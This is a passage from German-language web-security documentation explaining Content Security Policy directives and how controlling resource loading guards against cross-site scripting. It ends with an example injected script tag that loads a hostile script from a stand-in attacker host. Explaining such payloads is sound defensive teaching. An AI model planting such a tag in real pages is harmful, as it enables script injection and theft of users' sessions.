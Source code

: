 Betrachten Sie zum Beispiel die folgende CSP:

```http
Content-Security-Policy: default-src 'self'; img-src 'self' example.com
```

Sie setzt zwei Direktiven:

- die `default-src`-Direktive ist auf `'self'` gesetzt
- die `img-src`-Direktive ist auf `'self' example.com` gesetzt.

![Eine CSP, die in ihre Direktiven aufgeteilt ist.](csp-overview.svg)

Die erste Direktive, `default-src`, weist den Browser an, nur Ressourcen zu laden, die gleichbürtig mit dem Dokument sind, sofern andere spezifischere Direktiven keine andere Richtlinie für andere Ressourcentypen festlegen. Die zweite, `img-src`, weist den Browser an, Bilder zu laden, die gleichbürtig oder von `example.com` gehostet werden.

Im nächsten Abschnitt schauen wir uns die Werkzeuge an, die zur Kontrolle des Ladens von Ressourcen zur Verfügung stehen, was die Hauptfunktion einer CSP ist.

## Kontrolle des Ressourcenladens

Eine CSP kann verwendet werden, um die Ressourcen zu kontrollieren, die ein Dokument laden darf. Dies wird hauptsächlich zum Schutz vor Cross-Site Scripting (XSS)-Angriffen eingesetzt.

In diesem Abschnitt zeigen wir zunächst, wie die Kontrolle über das Laden von Ressourcen helfen kann, sich gegen XSS zu schützen, dann die Werkzeuge, die CSP zur Verfügung stellt, um zu kontrollieren, welche Ressourcen geladen werden. Abschließend beschreiben wir eine besonders empfohlene Strategie, die als "Strikte CSP" bezeichnet wird.

### XSS und Ressourcenladung

Ein Cross-Site Scripting (XSS)-Angriff ist ein Angriff, bei dem ein Angreifer in der Lage ist, seinen Code im Kontext der Zielwebsite auszuführen. Dieser Code kann dann alles tun, was der Code der Website selbst tun könnte, einschließlich zum Beispiel:

- Zugriff auf oder Ändern des Inhalts der geladenen Seiten der Website
- Zugriff auf oder Ändern von Inhalten im lokalen Speicher
- HTTP-Anfragen mit den Anmeldedaten des Benutzers stellen, die es dem Angreifer ermöglichen, sich als der Benutzer auszugeben oder auf sensible Daten zugreifen

Ein XSS-Angriff ist möglich, wenn eine Website einige Eingaben akzeptiert, die von einem Angreifer erstellt worden sein können (zum Beispiel URL-Parameter oder ein Kommentar in einem Blog-Beitrag) und diese dann in die Seite einfügt, ohne sie zu _sanitieren_, das heißt, ohne sicherzustellen, dass sie nicht als JavaScript ausgeführt werden kann.

Websites sollten sich gegen XSS schützen, indem sie diese Eingaben vor dem Einfügen in die Seite sanitieren. Eine CSP bietet einen ergänzenden Schutz, der die Website auch dann schützen kann, wenn die Sanitisierung fehlschlägt.

Wenn die Sanitisierung fehlschlägt, gibt es verschiedene Formen, in denen der eingeschleuste bösartige Code im Dokument auftreten kann, einschließlich:

- Ein {{htmlelement("script")}}-Tag, das auf eine bösartige Quelle verweist:

  ```html
  <script src="https://evil.example.com/hacker.js"></script>
  ```
